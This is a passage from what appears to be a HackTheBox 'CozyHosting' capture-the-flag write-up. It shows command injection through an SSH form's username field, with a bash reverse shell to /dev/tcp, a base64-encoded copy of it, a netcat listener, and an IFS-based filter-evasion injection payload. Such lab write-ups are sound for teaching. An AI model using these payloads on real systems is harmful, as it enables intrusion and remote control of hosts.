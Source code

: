 I now have access to the Dashboard of the user.

![cozyhosting-dashboard](/images/HTB-CozyHosting/Dashboard.png)

There is another input field, it seems to be working with some SSH key files.

![cozyhosting-SSH-note](/images/HTB-CozyHosting/cozyhosting-SSH-note-1.png)

I use Burp Suite to capture the request. I try `cozyhosting:test` and I get that the `host key verification failed`. After I submit a `hostname` and `username` the form makes a request to the endpoint `/executessh`.

![cozyhosting-host-key-failure](/images/HTB-CozyHosting/host-key-verification-fail.png)

I can also see in that the application is trying to execute some bash commands and I get an error created when `/bin/bash -c` is executed.

![cozyhosting-bash-error](/images/HTB-CozyHosting/binbash-error.png)

## Initial Foothold

Now I know that some bash command is being executed I can try to get a reverse shell through this process.

I used this command to generate my payload in base64.

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

![cozyhosting-payload](/images/HTB-CozyHosting/payload-generated.png)

**Setup a netcat listener before attempting to login.** 

```
nc -nvlp <YOUR-PORT-NUMBER>
```

I try to login with `cozyhosting` as the hostname and for the username I use the command below (I am using my base64 payload generated earlier with the `echo` command).

```
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMjIvODAwMCAwPiYxCg=="
```

I get a message saying that `Username can't contain whitespaces!`. I then use the bash parameter `{IFS%??}` to remove spaces from the payload.

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

After using the new payload I get a reverse shell!

![cozyhosting-reverse-shell](/images/HTB-CozyHosting/rev-shell.png)

We can make the shell stable with these commands
